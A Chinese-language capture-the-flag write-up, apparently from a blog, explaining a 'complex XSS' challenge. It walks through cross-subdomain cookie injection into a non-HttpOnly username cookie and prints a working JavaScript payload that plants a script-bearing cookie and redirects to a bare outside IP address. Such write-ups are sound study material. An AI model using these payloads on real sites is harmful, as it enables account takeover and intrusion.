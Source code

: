 

# 复杂xss #

我感觉很棒的一题，下面我稍微讲仔细一点儿。

第一个页面url是http://government.vip/

![image_1bbm81fi31ic413d1vkjuad4q1n.png-42.1kB][4]

然后flag是在http://admin.government.vip:8000另一个域下

第一部分这里payload是没做任何限制的，你可以随便构造一个img标签然后监听过去看看，这里是可以执行任意js的。

然后我们直接打开http://admin.government.vip:8000看看，有个登录框，test test可以登录成功，仔细观察站内，我们得到这样一个信息

![image_1bbm867761jslt3s60i1punqj324.png-59.2kB][5]

页面内的username是从cookie里获取的，而且username这个cookie不是httponly，通过设置cookie，我们可以构造xss，执行任意js，但页面有沙箱禁用了部分函数。

之后我们还看到题目给了提示说只有admin可以upload shell，访问下upload看看，页面存在，get请求会405，只能发送post请求。

稍微整理下已有的条件：

1、url1是整站的根目录，可以执行任意js

2、url2是整站的子域，通过设置cookie可以执行js

3、我们的目标是在admin上上传文件，还要获取到返回回来


你可能觉得现在的条件并不够，因为你可能不知道cookie的特性。

![image_1bbnj20hv1tirtiq1ec7vrc2k22h.png-113.9kB][6]

首先js是可以设置cookie的

但是在web内有个很多人都知道的的问题，就是同源策略

![image_1bbnj670k1kjd1fih1khj1oegq6n2u.png-340.6kB][7]

但cookie中，又有点儿不一样

![image_1bbnj81aj1i95ua2ea91c3s5rq3b.png-403.3kB][8]

cookie是不区分端口以及http/https的，而对于domain是向上匹配的，再来看个例子

![image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png-900.4kB][9]

也就是说我们在根域是可以设置子域的cookie的。

所以第一部分的payload就是

```
<script>
document.cookie="username=a<script>window.location.href='http://115.28.78.16?id=test'<\/script>;domain=.government.vip; path=/;"

window.location.href="http://admin.government.vip:8000";
</script>
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i6r7eapfqxz18e7frsexxp6d/image_1bbm7t6mv1lckjf7m4o10tq1s81g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9cbjbavbdg59k7lbzdt882ct/image_1bbm7tqmjkb011vho2e19mg1j7mt.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fcsi2y6azh4w2cn1hi7vsaox/image_1bbm7umpc158d118d1elc3i71j6g1a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7iglrk439xnneps9zyt0bje8/image_1bbm81fi31ic413d1vkjuad4q1n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d7oo6ll6tzhoxhpi9s0ya4ge/image_1bbm867761jslt3s60i1punqj324.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0fo4y89aul236z6zeq20vzl1/image_1bbnj20hv1tirtiq1ec7vrc2k22h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hr86wmm3mehab6nubr7q2219/image_1bbnj670k1kjd1fih1khj1oegq6n2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ugwkm2dhr9wyfcpa0ohocu31/image_1bbnj81aj1i95ua2ea91c3s5rq3b.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wscz7k86wuyba78gi9ev4yc6/image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/571vkxvwy40jemssd8kccqry/image_1bbnm3785lrg1k0pe0iu4b8ij45.png